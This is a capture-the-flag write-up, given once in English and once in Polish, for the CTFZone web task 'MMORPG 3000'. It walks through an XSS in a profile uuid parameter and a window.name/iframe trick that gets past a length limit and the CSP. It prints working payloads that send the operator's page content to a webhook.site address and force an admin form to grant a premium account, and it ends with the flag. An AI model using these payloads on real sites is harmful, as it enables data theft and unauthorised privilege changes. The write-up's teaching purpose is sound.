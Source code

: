 # MMORPG 3000 (web)

In this challenge we can see a simple website imitating a web store with stuff for magicians:

The registration form contains standar login and password fields and “name” field that fill be visible in our profile:


Besides editing our profile (we can change the “name” field to any string of up to 33 characters length) we can see “support” tab that suggests typical XSS task:

The hardcoded URL of our profile suggests injecting into “name” field in our profile that we control - however, it’s just a bait (typical for ctf.zone) and the limit is only client-side. Removing readonly attribute from “Link to profile” field lets us redirect the operator to any website that we control.

Now we gain very useful information: the operator is using Firefox 6.1

A quick glance at response headers:
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block

We can find a real XSS in uid parameter of profile.php script:

Unfortunately, the maximum length of our payload is 36 characters. It’s too short for any meaningful action, so we need to think of something that will let us execute longer payloads. After many tires and some googling we find the solution:
the name attribute of window object is not changed while redirecting to different origins. We can set it in our website and execute on vulnerable one with short payload that bypasses CSP and makes uses of the fact that it’s allowed to load iframes from our own origin:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
It’s worth to mention that we don’t care about X-XSS-Protection header that is simply ignored by Firefox.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```


The remaining part of the task is simple: we send the content of operator’s website to us:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

And observe the new option in menu: manage.php:

Let’s write a pyaload that fills the form with our uid and gives us premium account:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

After refreshing our profile we can find a flag inside (unfortunately, while writing this writeup, that bot visiting website seems to be dead, so there won’t be a screenshot :( )
ctfzone{0190af5705a38115cd6dee6e7d79e317}




W zadaniu dostajemy prostą stronę udającą sklep z artykułami dla iluzjonistów:

Formularz rejestracji zawiera standardowe pole loginu i hasła oraz pole “name”, które będzie wyświetlane w profilu:


Oprócz edycji profilu (możemy zmienić pole Name na dowolny napis o długości do 33 znaków) widzimy zakładkę support, która sugeruje typowe zadanie na XSS:

Ustawiony na sztywno adres do naszego profilu sugeruje konieczność wstrzyknięcia naszego kodu w pole Name, które edytujemy - jest to jednak zwykła zmyła (typowa dla ctf.zone ;) ), a ograniczenie jest sprawdzane jedynie po stronie klienta. Usunięcie atrybutu readonly z pola “Link to profile” pozwala nam na przekierowanie operatora na dowolną kontrolowaną przez nas stronę:

Zyskujemy w ten sposób ważną informację: operator korzysta z przeglądarki Firefox 6.1.

Szybki rzut oka na nagłówki odsyłane przez serwer:
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block

Prawdziwego XSS-a znajdujemy w polu uid skryptu profile.php:

Niestety, maksymalna długość naszego payloadu nie może przekraczać 36 znaków. To za mało na wykonanie jakiejkolwiek sensownej akcji, więc musimy pomyśleć o czymś, co pozwoli nam wykonywać dłuższe skrypty. Po wielu próbach i googlowaniu znajdujemy rozwiązanie: atrybut name obiektu window jest przekazywany między stronami. Możemy więc ustawić go na swojej stronie i wykonać na podatnej stronie krótkim payloadem, który omija CSP i wykorzystuje to, że dozwolone jest ładowanie ramek z własnego origina:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
Warto wspomnieć, że nie przeszkadza nam tutaj nagłówek X-XSS-Protection, który Firefox zwyczajnie ignoruje.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```


Dalej już z górki: przesyłamy sobie zawartość strony, którą widzi operator:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

I w zwróconym kodzie zauważamy nową opcję w menu: manage.php:

Napiszmy więc payload, który wypełnia formularz naszym uuid i przyznaje nam konto premium:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

Po czym odświeżamy nasz profil i znajdujemy w nim flagę (niestety, na moment pisanie writeupa bot odwiedzający stronę nie działa, więc nie będzie screenshota :( ):
ctfzone{0190af5705a38115cd6dee6e7d79e317}





